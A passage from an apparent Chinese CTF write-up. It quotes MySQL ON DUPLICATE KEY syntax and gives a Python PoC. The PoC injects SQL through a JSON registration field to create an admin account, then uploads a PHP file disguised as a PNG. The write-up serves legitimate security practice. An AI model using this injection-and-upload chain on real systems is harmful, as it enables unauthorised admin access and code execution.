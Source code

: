 > 
> INSERT INTO t1 SET a=1,b=2,c=3 AS new(m,n,p)
>   ON DUPLICATE KEY UPDATE c = m+n;
> 
> INSERT INTO t1 (a, b)
>   SELECT c, d FROM t2
>   UNION
>   SELECT e, f FROM t3
> ON DUPLICATE KEY UPDATE b = b + c;
> 
> INSERT INTO t1 (a, b)
> SELECT * FROM
>   (SELECT c, d FROM t2
>    UNION
>    SELECT e, f FROM t3) AS dt
> ON DUPLICATE KEY UPDATE b = b + c;
> ```
> 
> 更多....其他还有更多地语句并没有记录,我相信对于一位ctfer来说上面的应该是够用了的

这里我们可以使用`示例三`,`示例四`进行数据插入,为了看起来方便任意分别我使用了`示例四`的方式插入语句

最后整理一下需要满足的条件,构造出以下poc:

```python
import random

import requests
url="http://eci-2ze9vkawiglp5cwv0yob.cloudeci1.ichunqiu.com/"

session=requests.session()

def getrole0user():
    # 注册一个role=0的用户
    global session
    session.post(url + "register.php",
                 data="""{"name":"a","idcard":"123456789012345678","phone":"123','123','123'),('0','admin','123456','admin","username":"b","password":"a"}""",
                 headers={"content-type": "application/json"})
    # 登录这个role=0的用户并且将对应的session保留在当前这个对话中
    session.post(url + "login.php", data='{"username":"admin","passwd":"123456"}',
                 headers={"content-type": "application/json"})

def uploadwebshell(filename,text):
    global session
    # 注意用户名随机,要不然存在重名的数据段的话就会直接退出而导致执行上传文件失败
    data = {"submit1": random.random(), "username": random.random(), "info": random.random(), "name": random.random(),
            "worktime": random.random(), "special": random.random(), "position": random.random(),
            "password": random.random(), "idcard": random.random(), "phone": random.random()
            }
    # 上传文件
    print(session.post(url + "manage.php",
                       data=data,
                       files=[('file', (filename, text, 'image/png')),]
                       ).text
          )
    # 检查文件上传是否成功
    uploadurl = url + "img/" + filename
    print(uploadurl)
    print(session.post(uploadurl).text)

getrole0user()
filename = "shell.php"
text="""<? phpinfo();?><script language="php">phpinfo()</script><h1>aa</h1>"""
```